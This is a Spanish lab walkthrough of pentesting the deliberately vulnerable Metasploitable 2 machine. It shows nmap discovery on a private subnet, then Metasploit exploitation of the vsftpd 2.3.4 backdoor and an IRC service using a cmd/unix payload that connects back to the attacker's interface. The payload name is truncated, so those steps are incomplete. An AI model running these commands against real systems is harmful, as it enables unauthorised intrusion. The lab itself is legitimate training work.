

# Pentesting con Metasploitable 2

En esta tarea vamos a hacer pentesting en una máquina vulnerable **(Metasploitable 2)**.

## 1. Encontrar la máquina vulnerable

Entramos a nuestra máquina *kali linux* y hacemos un scanner de las máquinas disponibles.

```bash
sudo nmap -sN 192.168.2.0/24
```

Esto nos marcará las máquinas disponibles en la red. Veremos algo extraño que nos dirá que está es la máquina de metaexploitable.


La máquina de metaexploitable es 192.168.2.141

## 2. Activar metaexploitable


```bash
sudo systemctl start postgresql
sudo msfdb init
sudo msfdb run
```


Ahora vamos a buscar la vulnerabilidad de vsftpd

### vsftpd

```bash
search vsftpd
```


Al usar vsftpd 2.3.4 el exploit para esa versión


Asignamos la ip del eqipo vulnerable

```bash
set RHOSTS 192.168.2.141
```

Y ya podemos hacer el exploit

```bash
exploit
```

Y ya entramos a la maquina


### IRC


Usaremos la opción 18

```bash
use 18
options
```

En RHOSTS ponemos la ip de la máquina vulnerable

```bash
set RHOSTS 192.168.2.141
```

Ponemos el payload y en lhost la interfaz de red nuestra

```bash
set payload cmd/unix/
set lhost eth0
exploit
```

Y estamos dentro




---